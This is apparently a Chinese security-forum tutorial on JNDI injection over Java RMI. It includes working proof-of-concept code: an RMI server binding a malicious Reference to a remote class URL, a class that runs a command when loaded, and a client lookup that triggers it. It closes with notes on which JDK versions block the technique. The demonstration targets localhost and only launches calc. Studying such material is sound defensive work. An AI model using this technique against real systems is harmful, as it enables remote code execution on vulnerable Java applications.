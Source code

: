 jndi有什么用
--------

jndi是用于目录服务的java api,它允许Java客户端通过名称发现和查找数据和资源。直白说就是将名字和对象绑定,通过名字检索对象,对象可以储存在RMI、LDAP、CORBA等等.

JNDI支持的服务主要有：DNS、LDAP、CORBA、RMI等。

###### jndi的官方架构图如下

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-558ab1332a6a58ec30cb5a044d600be31e78b400.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-558ab1332a6a58ec30cb5a044d600be31e78b400.png)

jndi注入
------

jndi注入就是将恶意的Reference类绑定在RMI注册表中，其中恶意引用指向远程恶意的class文件，当用户在JNDI客户端的lookup()函数参数外部可控或Reference类构造方法的classFactoryLocation参数外部可控时，会使用户的JNDI客户端访问RMI注册表中绑定的恶意Reference类，从而加载远程服务器上的恶意class文件在客户端本地执行，最终实现JNDI注入攻击导致远程代码执行。基于jndi的利用可以让Fastjson反序列化。

###### 利用条件:客户端的lookup()方法的参数可控和服务端在使用Reference时，classFactoryLocation参数可控

###### jndi注入可以应用的环境:

rmi、通过jndi reference远程调用object方法。  
CORBA IOR 远程获取实现类（Common Object Request Broker Architecture,公共对象请求代理体系结构，通用对象请求代理体系结构 IOR：可互操作对象引用。）  
LDAP 通过序列化对象，JNDI Referene，ldap地址

###### 这篇文章讲一下rmi环境下执行jndi注入，导图如下

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-a666802989a976f91d0891a61de8b2fe676a08dd.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-a666802989a976f91d0891a61de8b2fe676a08dd.png)

构建RMI
-----

###### RMI是什么:

```php
RMI（Remote Method Invocation）是专为Java环境设计的远程方法调用机制，远程服务器实现具体的Java方法并提供接口，客户端本地仅需根据接口类的定义，提供相应的参数即可调用远程方法。
RMI依赖的通信协议为JRMP(Java Remote Message Protocol ，Java 远程消息交换协议)，该协议为Java定制，要求服务端与客户端都为Java编写。
这个协议就像HTTP协议一样，规定了客户端和服务端通信要满足的规范。在RMI中对象是通过序列化方式进行编码传输的。
```

###### RMI为什么可以被jndi注入

```java
服务端
IHello rhello = new HelloImpl();
LocateRegistry.createRegistry(1888);
Naming.bind("rmi://0.0.0.0:1888/hello", rhello);
客户端
Registry registry = LocateRegistry.getRegistry("远程服务器地址",1888);
IHello rhello = (IHello) registry.lookup("hello");
rhello.sayHello("test");
```

当客户端访问远程服务器RMI注册表，得到该RMI注册表的对象，此时再访问其中URL中的hello，即可以获得服务器端绑定到hello的类的对象，此时就可以进行调用sayHello方法，其中方法是在服务端执行的，服务端执行结束将返回结果返回给客户端，即在整个流程客户端也就完成了对远程服务器上的对象的使用。服务端将不同的url与类写入RMI注册表,当客户端的jvm想要调用某个类时，可以根据服务端传递过来的url去远程下载类对应的class文件到本地来进行调用。

怎么进行jndi注入
----------

想要通过RMI进行jndi注入,需要构造一个恶意服务端向客户端返回一个Reference对象,Reference是什么呢(它是对于存在命名/目录系统以外的对象的引用,定义为:Java为了将Object对象存储在Naming或Directory服务下，提供了Naming Reference功能，对象可以通过绑定Reference存储在Naming或Directory服务下，比如RMI、LDAP等。)通过服务端将恶意的Reference绑定到rmi注册表中指定从远程加载的恶意Factory类,客户端在lookup时就会远程动态加载构造的恶意Factory并实例化

```java
javax.naming.Reference 构造
Reference(String className, String factory, String factoryLocation)
classname:远程加载时所使用的类名
classFactory:加载的class中需要实例化的名称
classFactoryLocation:提供classes数据的地址,可以是file/ftp/http等协议
```

开始构造服务端代码

```java
package demo;

import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RMIServer {

    public static void main(String[] args) throws Exception{
        Registry registry= LocateRegistry.createRegistry(7777);

        Reference reference = new Reference("test", "test", "http://localhost/");
        ReferenceWrapper wrapper = new ReferenceWrapper(reference);
        registry.bind("calc", wrapper);

    }
}
```

import com.sun.jndi.rmi.registry.ReferenceWrapper的原因是 Reference由于没有实现Remote接口也没有继承UnicasRemoteObject类,所以不能作为远程对象bind到注册中心，需要使用ReferenceWrapper对其实例进行封装

恶意java文件编译为class文件之后放到http服务器上

```java
import java.lang.Runtime;

public class test{
    public test() throws Exception{
        Runtime.getRuntime().exec("calc");
    }
}
```

下面使用客户端访问

```java
package demo;

import javax.naming.InitialContext;

public class JNDI_Test {
    public static void main(String[] args) throws Exception{
        new InitialContext().lookup("rmi://127.0.0.1:7777/calc");
    }
}
```

写好之后先打开服务端文件然后可以使用python直接开启http服务器,最后开启客户端进行访问

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-2eeedb755eb907fc9e7bcb9f28d362147523ed17.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-2eeedb755eb907fc9e7bcb9f28d362147523ed17.png)

###### 最后贴上jndi的jdk版本要求:

- JDK 6u45、7u21之后：java.rmi.server.useCodebaseOnly的默认值被设置为true。当该值为true时，将禁用自动加载远程类文件，仅从CLASSPATH和当前JVM的java.rmi.server.codebase指定路径加载类文件。使用这个属性来防止客户端VM从其他Codebase地址上动态加载类，增加了RMI ClassLoader的安全性。
- JDK 6u141、7u131、8u121之后：增加了com.sun.jndi.rmi.object.trustURLCodebase选项，默认为false，禁止RMI和CORBA协议使用远程codebase的选项，因此RMI和CORBA在以上的JDK版本上已经无法触发该漏洞，但依然可以通过指定URI为LDAP协议来进行JNDI注入攻击。
- JDK 6u211、7u201、8u191之后：增加了com.sun.jndi.ldap.object.trustURLCodebase选项，默认为false，禁止LDAP协议使用远程codebase的选项，把LDAP协议的攻击途径也给禁了。